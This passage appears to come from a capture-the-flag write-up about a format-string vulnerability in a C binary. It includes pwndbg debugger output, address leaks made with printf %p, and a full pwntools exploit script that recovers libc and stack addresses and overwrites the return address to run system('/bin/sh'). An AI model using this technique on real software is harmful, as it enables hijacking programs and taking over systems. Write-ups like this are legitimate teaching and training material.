───────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────────────────────────────
 ► 0x7ffff78565b0 <printf+160>    ret                                <main+89>
    ↓
   0x5555555551e2 <main+89>       add    dword ptr [rbp - 0x214], 1        [0x7fffffffd42c] <= 33 (0x20 + 0x1)
   0x5555555551e9 <main+96>       cmp    dword ptr [rbp - 0x214], 0xd3     0x21 - 0xd3     EFLAGS => 0x297 [ CF PF AF zf SF IF df of ]
   0x5555555551f3 <main+106>    ✔ jle    main+42                     <main+42>
    ↓
   0x5555555551b3 <main+42>       mov    rdx, qword ptr [rip + 0x2e56]     RDX, [stdin@@GLIBC_2.2.5] => 0x7ffff7bc18c0 (_IO_2_1_stdin_) ◂— 0xfbad2288
   0x5555555551ba <main+49>       lea    rax, [rbp - 0x210]                RAX => 0x7fffffffd430 ◂— 0xa6473 /* 'sd\n' */
   0x5555555551c1 <main+56>       mov    esi, 0x200                        ESI => 0x200
   0x5555555551c6 <main+61>       mov    rdi, rax                          RDI => 0x7fffffffd430 ◂— 0xa6473 /* 'sd\n' */
   0x5555555551c9 <main+64>       call   fgets@plt                   <fgets@plt>
 
   0x5555555551ce <main+69>       lea    rax, [rbp - 0x210]
   0x5555555551d5 <main+76>       mov    rdi, rax
────────────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffd418 —▸ 0x5555555551e2 (main+89) ◂— add dword ptr [rbp - 0x214], 1
01:0008│-220 0x7fffffffd420 —▸ 0x7fffffffd630 —▸ 0x7fffffffd720 ◂— 1
02:0010│-218 0x7fffffffd428 ◂— 0x20ffffd498
03:0018│-210 0x7fffffffd430 ◂— 0xa6473 /* 'sd\n' */
04:0020│-208 0x7fffffffd438 ◂— 0x1958ac0
05:0028│-200 0x7fffffffd440 ◂— 0x7fff00000026 /* '&' */
06:0030│-1f8 0x7fffffffd448 —▸ 0x7ffff7ffd340 ◂— add byte ptr [rdi + 0x5f], bl
07:0038│-1f0 0x7fffffffd450 —▸ 0x7fffffffd570 —▸ 0x7ffff7ffd2f8 ◂— add byte ptr [rax], al /* 'J' */
──────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────────────
 ► 0   0x7ffff78565b0 printf+160
   1   0x5555555551e2 main+89
   2   0x7ffff78203f1 __libc_start_main+241
   3   0x5555555550ce _start+46
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> search 0x5555555551e2
Searching for byte: b'0x5555555551e2'
pwndbg> search -t qword  0x5555555551e2
Searching for an 8-byte integer: b'\xe2QUUUU\x00\x00'
[stack]         0x7fffffffd418 0x5555555551e2 (main+89)

pwndbg> p/x 0x7fffffffd430-0x7fffffffd418
$1 = 0x18
```
Here the second leak from `%2$p` is 24 bytes away from our target address.
If we can overwrite that return address , then we can control the execution of program.

```bash
 ./main_patched                                                                                                           
AAAAAAAAAAAAAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p
AAAAAAAAAAAAAAA0x790b8d9c37700x7fff1cc25bc00xfbad22880x5898ec3f503c0x790b8ddf77000x7fff1cc25dc00x201cc25c280x41414141414141410x25414141414141410x25702570257025700x25702570257025700x25702570257025700x79000a7025700x7fff1cc25c24
```
From this, I found that at from offset 8 , printf buffer starts , which we can use to overwrite the return address.

`extra:`here i tried for one_gadget, but there is no satisfying condition here.

## Exploit
```py
 cat solve.py                                                                                                            
#!/usr/bin/env python3

from pwn import *

elf = ELF("main_patched")
libc = ELF("libc-2.24.so")
ld = ELF("ld-2.24.so")

context.binary = elf
context.terminal = ['kitty','-e']

gdbscript = '''
b*main+89
c
'''

if args.REMOTE:
	p = remote('dnd.chals.damctf.xyz',30813)
elif args.GDB:
	p = gdb.debug(elf.path, gdbscript=gdbscript)
else:
	p = process(elf.path)

ld_offset = b'%205$p'
offset = 8
to_libc = 0x3c3770

p.sendline(b'%p')
leak = int(p.recvline(),16)
print(hex(leak))

#0x7ffe59bfdd18
libc.address = leak - to_libc
print(hex(libc.address))

one_gadget_addr1 = 0x4557a  # [rsp+0x30] == NULL
one_gadget_addr2 = 0xf0a51  # [rsp+0x40] == NULL
one_gadget_addr3 = 0xf18cb  # [rsp+0x60] == NULL

p.sendline(b'%2$p')
leak = int(p.recvline(),16)

ret_addr = leak - 24
print("ret addr:",hex(ret_addr))

bin_sh = next(libc.search(b"/bin/sh"))

writes = {
	ret_addr: libc.address + 0x000000000001fd7a,
	ret_addr+8 : bin_sh,
	ret_addr + 16 : libc.sym.system
}

payload = fmtstr_payload(9, writes)

p.sendline(payload)

p.interactive()
```

